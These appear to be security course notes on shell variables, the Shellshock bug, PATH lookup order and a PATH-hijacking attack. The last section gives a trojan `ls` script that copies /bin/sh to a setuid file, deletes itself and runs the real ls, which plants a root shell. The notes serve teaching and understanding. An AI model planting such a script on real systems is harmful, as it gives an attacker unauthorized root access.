     - What is the difference between **Bash and Shell variable**?
      
        A shell variable and a bash variable are essentially the same thing, but they are often used in different contexts. "Shell variable" is a more general term that refers to a variable within any Unix-like shell (e.g., sh, bash, zsh, ksh, etc.), while "bash variable" specifically refers to a variable within the Bash (Bourne Again Shell) environment.
        
        Both types of variables are used to store and manipulate data in the shell environment, and they can be set, accessed, and modified using shell scripting. However, the distinction is mainly based on the context in which they are used.
        
        - Shell variable: A variable used within any Unix-like shell environment. It is a more general term.
        - Bash variable: A variable specifically used within the Bash shell environment.

#### Shell Shock

- Bash environment variables can also **export function definitions**
  
    ![截屏2023-08-05 上午1.17.32.png](https://s2.loli.net/2023/08/05/MxjNPvVZcgTGX3H.png)
    
    - If a variable string starts with `() {`, then this is a function
- The cases of shell shock
  
    ![截屏2023-08-05 上午1.19.09.png](https://s2.loli.net/2023/08/05/YOiKl2JPudNkVq9.png)
    
    - For the third command, `echo bar` should not be executed at all
    - Thus, this bash issue allows arbitrary command execution

#### PATH

- Users interact with the OS through a shell, such as `zsh`, `bash`, etc.
- As a matter of convenience users can type run a program command without specifying the complete path. For example, to run `ls`, you don’t need to type `/bin/ls`.
    - The shell knows where to look using a PATH variable
- The PATH environment variable lists the directories to search and it’s defined in `.cshrc` or `.bashrc` file depending on the shell you use and located at the home directory.
    - The **order matters**! It determines the commands look-up sequence of the shell.
      
        ![截屏2023-08-05 上午1.21.13.png](https://s2.loli.net/2023/08/05/bEhpr8qR5GvWoHu.png)
        

**Path Attack**

> Using path attack to trick system admin to get the root shell. Assume system admin has `.` at the beginning of their PATH, so the shell is looking for commands at local first.
>

1. Create a file called `ls` with the following content
   
    ```bash
    cp /bin/sh ./Stuff/sume
    chmod 4555 ./Stuff/sume
    rm -f $0
    exec /bin/ls $1
    ```
    